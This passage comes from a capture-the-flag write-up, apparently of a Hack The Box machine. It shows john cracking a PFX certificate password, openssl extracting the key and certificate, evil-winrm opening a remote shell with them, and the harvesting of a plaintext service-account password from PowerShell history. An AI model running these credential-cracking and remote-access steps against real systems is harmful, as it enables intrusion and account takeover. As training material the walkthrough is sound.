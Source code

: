 ### pfx
We get the following file: **legacyy_dev_auth.pfx**. If we try to open it, it ask for a password.
Let's break it with john again:
{% highlight bash %}
> sudo john --format=pfx --wordlist=/usr/share/wordlists/rockyou.txt pfx-hash
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 512/512 AVX512BW 16x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
**thuglegacy**       (legacyy_dev_auth.pfx) 
{% endhighlight %}
We can see some ssl certs:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/lab/img/zeropio-28012153.jpg" style="text-align: center" weight="100%" />

{% highlight bash %}
> openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out prv.key
> openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.crt 
{% endhighlight %}

### shell
We can use **evil-winrm** to access. Thanks to the nmap we now that ssl is enable, so we need to add **-S**:
{% highlight bash %}
> evil-winrm -i 10.10.11.152 -c cert.crt -k prv.key -S
Enter PEM pass phrase:
	*Evil-WinRM* PS C:\Users\legacyy\Documents>
{% endhighlight %}

&nbsp;
---

# Privilage Escalation
If we check the history we can see something:
{% highlight batch %}
PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> cat ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
{% endhighlight %}
